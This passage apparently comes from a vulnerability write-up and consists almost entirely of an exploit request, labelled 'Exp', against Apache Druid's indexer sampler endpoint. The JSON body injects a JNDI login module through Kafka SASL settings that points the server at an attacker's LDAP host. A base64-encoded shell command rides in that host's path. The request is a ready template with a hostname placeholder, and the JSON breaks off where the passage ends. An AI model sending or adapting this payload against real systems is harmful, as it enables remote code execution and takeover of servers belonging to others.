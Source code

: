 [![](assets/1708677570-68c73d003d9e22c80fd8ad1c9fc94172.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240220215851123.png)

Exp：

```bash
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: {{Hostname}}:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1792

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://your-jndi-server:1389/Basic/Command/base64/aWQgPiAvdG1wL3N1Y2Nlc3M=\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
```